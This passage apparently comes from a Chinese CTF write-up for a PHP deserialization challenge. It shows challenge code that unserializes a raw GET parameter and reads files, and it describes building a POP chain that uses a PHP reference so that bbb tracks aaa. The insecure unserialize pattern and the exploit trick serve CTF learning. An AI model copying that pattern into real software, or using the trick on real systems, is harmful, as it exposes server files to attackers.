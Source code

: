 ```
        `{`
            $file = "./`{`$this-&gt;filename`}`";        
            if (file_get_contents($file))         
            `{`              
                return file_get_contents($file); 
            `}`  
            else 
            `{` 
                return "you must be joking!"; 
            `}`    
        `}`
    `}`  
`}`  

class sec 
`{`  
    function read()     
    `{`          
        return "it's so sec~~";      
    `}`  
`}`  

if (isset($_GET['data']))  
`{` 
    $Input_data = unserialize($_GET['data']);
    echo $Input_data; 
`}` 
else 
`{` 
    highlight_file("./index.php"); 
`}` 
?&gt;
```

发现是一个简单的反序列化题目<br>
我们发现只要满足

```
$this-&gt;nice-&gt;aaa === $this-&gt;nice-&gt;bbb
```

即可读文件<br>[![](https://p2.ssl.qhimg.com/t010b464ffe6d60e599.png)](https://p2.ssl.qhimg.com/t010b464ffe6d60e599.png)<br>
那么我们利用pop链，构造<br>[![](https://p1.ssl.qhimg.com/t01f5bef0ff53222de3.png)](https://p1.ssl.qhimg.com/t01f5bef0ff53222de3.png)<br>
但是我们注意到<br>[![](https://p2.ssl.qhimg.com/t014635fad328ee1d17.png)](https://p2.ssl.qhimg.com/t014635fad328ee1d17.png)<br>
aaa会被重新赋值，所以使用指针，这样bbb会跟随aaa动态改变

```
$a = new baby();
$a-&gt;bbb =&amp;$a-&gt;aaa
```
